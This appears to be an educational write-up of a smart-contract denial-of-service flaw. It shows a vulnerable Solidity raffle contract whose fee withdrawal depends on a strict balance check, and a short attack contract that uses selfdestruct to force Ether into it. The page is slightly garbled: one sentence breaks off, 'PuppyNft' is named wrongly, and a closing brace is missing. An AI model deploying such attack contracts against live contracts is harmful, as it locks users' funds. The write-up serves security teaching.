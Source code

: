 

## <font color="yellow"> DoS Due to strict Equality  <a id="typography"></a></font>


### Description

Contracts that strictly rely on having a specific Ether balance can encounter issues. Ether can be sent to a contract forcibly, bypassing its fallback function, through methods like ```selfdestruct``` or by mining rewards. This could result in unexpected Ether in the contract's balance. In the worst-case scenario, such unexpected Ether could cause Denial of Service (DoS) conditions, potentially rendering the contract unusable.

In the vulnerable contract and attack contract below we would find out the vulnerability of strict equality checks which eventually leads to loss of funds in the PuppyNft contract when an attacker forcefully sends ether that disrup

## Vulnerable Contract
```
//SPDX-License-Identifier: MIT 

pragma solidity 0.8.20;

contract PuppyRaffle {

    address public owner;

    address public feeAddress;

    uint64 public totalFees = 0;

    constructor(){
        owner = msg.sender;
    }

    function withdrawFees() external {
        require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = owner.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
}

```
## Attck Contract

```
 // SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import {PuppyRaffle} from "./Puppy.sol";

contract  AttackPuppy {
    PuppyRaffle public puppyRaffle;

    constructor(address _target){
        puppyRaffle = PuppyRaffle( _target);
    }

     function destroy(address _puppyContract) external {
        selfdestruct(payable(_puppyContract));
    }
```